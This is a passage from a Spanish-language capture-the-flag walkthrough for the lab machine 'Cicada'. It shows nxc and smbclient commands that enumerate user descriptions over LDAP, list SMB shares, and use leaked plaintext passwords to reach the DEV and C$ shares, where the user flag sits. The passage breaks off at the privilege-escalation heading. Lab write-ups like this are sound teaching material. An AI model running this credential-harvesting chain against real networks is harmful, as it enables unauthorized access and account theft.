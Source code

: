 ![](/assets/images/Imagenes/Pasted image 20241011194936.png)

Vemos que las credenciales son válidas con el usuario *michael.wrightson*. Gracias a esto es posible enumerar los usuarios y contraseñas que existan en el sistema.

```bash
nxc smb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' -M get-desc-users
```

Con el siguiente comando, gracias a las credenciales que hemos obtenido, listamos la descripción de los usuarios de ldap. Y encontramos una interesante:

![](/assets/images/Imagenes/Pasted image 20241011195437.png)

Conseguimos la contraseña de *david.orelious*, `aRt$Lp#7t*VQ!3`.

Si probamos a listar las carpetas compartidas a las que tiene acceso david vemos que DEV está entre ellas:

```bash
nxc smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
```

![](/assets/images/Imagenes/Pasted image 20241011195914.png)

Podemos acceder con smbclient como anteriormente con las credenciales de david.

```bash
smbclient \\\\10.10.11.35\\DEV -U david.orelious@cicada.htb
```

![](/assets/images/Imagenes/Pasted image 20241011200451.png)

Vemos que dentro tiene un archivo de backup, que puede que contenga credenciales para el sistema. Podemos descargarlo como antes con *get*.

Si miramos su contenido vemos que efectivamente existen las credenciales de emily.oscars, con la contraseña `Q!3@Lp#M6b*7t*Vt`.

![](/assets/images/Imagenes/Pasted image 20241011200748.png)

Con este usuario y su credencial ya podemos entrar al share de C$.

```bash
smbclient \\\\10.10.11.35\\C$ -U emily.oscars@cicada.htb
```

![](/assets/images/Imagenes/Pasted image 20241011201015.png)

Veremos que en su escritorio estará la primera bandera de usuario.

![](/assets/images/Imagenes/Pasted image 20241011201233.png)

---

## Escalada de privilegios
